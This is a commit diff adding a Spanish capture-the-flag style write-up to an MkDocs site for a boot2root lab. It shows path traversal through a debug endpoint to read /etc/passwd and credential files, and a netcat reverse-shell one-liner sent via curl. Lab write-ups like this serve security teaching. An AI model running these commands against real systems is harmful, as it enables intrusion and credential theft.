

Before and after one commit to juzzrespecter/boot2root, an MkDocs documentation site: the page built from docs/rce.md, in a window 1280 px wide and 1400 px high. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; some of the changed text lies outside the part shown.

Commit message:
writeup1 & makefile

````diff
--- a/docs/rce.md
+++ b/docs/rce.md
@@ -1,4 +1,58 @@
+# LFI -> RCE
+
+En el fuzzing del servidor obtuvimos el siguiente endpoint de debug:
+```
+root@15485da21b1b:/opt/gobuster# curl 10.1.0.8:5042/api/debug
+HAL9042 debug endpoint.
+usage: ?file=<path>  |  ?cmd=<command>&token=<maintenance_token>
+```
+
+La táctica usada para obtener control remoto en el servidor son dos stages, uno de exfiltración de archivo local para obtener credenciales de usuario
+
+## LFI
+
+Exfiltramos los usuarios disponibles en el sistema con `curl 'http://10.1.0.8:5042/api/debug?file=../../../../etc/passwd'`
+
+Los usuarios reales que nos interesan son:
+
+```
+paco:x:1001:1003::/home/paco:/bin/bash
+wil:x:1002:1004::/home/wil:/bin/bash
+sophie:x:1003:1005::/home/sophie:/bin/bash
+ol:x:1004:1006::/home/ol:/bin/bash
+hal:x:9042:9042:HAL9042 Evaluation System,I am completely operational:/home/hal:/bin/sh
+halrev:x:999:988::/opt/hal9042/reviewer:/usr/sbin/nologin
+```
+
+Probamos a exfiltrar información de la carpeta `home` de paco, en concreto los archivos de configuración de **bash** ya que se nos indica que es su shell por defecto con `curl 'http://10.1.0.8:5042/api/debug?file=../../../../home/paco/.bash_history'`.
+
+Obtenemos los siguientes comandos.
+```
+cc -O2 -o /opt/hal9042/daemon evaluator.c
+nc 127.0.0.1 7042
+echo "DEBUG:id" | nc 127.0.0.1 7042
+vim TODO.md
+cat .env.old
+git add config.py
+git commit -m "remove debug config before launch"
+systemctl --user status hal9042d
+python3 scripts/encrypt.py
+clear
+```
+
+Exfultramos el archivo **.env.old** y obtenemos las credenciales de ssh de paco junto con el admin token que nos permitirá pasar al siguiente stage de **ejecución remota de comandos**.
+
+## RCE
+
+El comando que nos va a permitir obtener una reverse shell es el siguiente:
+```bash
+rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1 |nc 10.1.0.1 6767 >/tmp/f...
+```
+El comando crea una **named pipe** que redirige su output a una shell interactiva, que a su vez comunica con un **socket** abierto por netcat que se conectará a nuestro servico local con `nc -lk 6767` y redirigirá nuestros comandos de nuevo a la pipe.
+
+Codificado para pasarlo como parámetro:
 ```bash
 curl "10.1.0.8:5042/api/debug?cmd=rm%20-f%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%20%7Cnc%2010.1.0.1%206767%20%3E%2Ftmp%2Ff&token=$ADMIN_TOKEN"
+```
 
-```
+Con esto obtenemos una shell remota con el usuario dueño del proceso del servidor **www-data**.
````
Also changed, not shown: docs/index.md (+5 -6 lines), docs/reconnaisance.md (+10 -3 lines), docs/server-reconnaisance.md (+2 -6 lines), docs/ssti.md (added, +24 -0 lines), 2 other files.
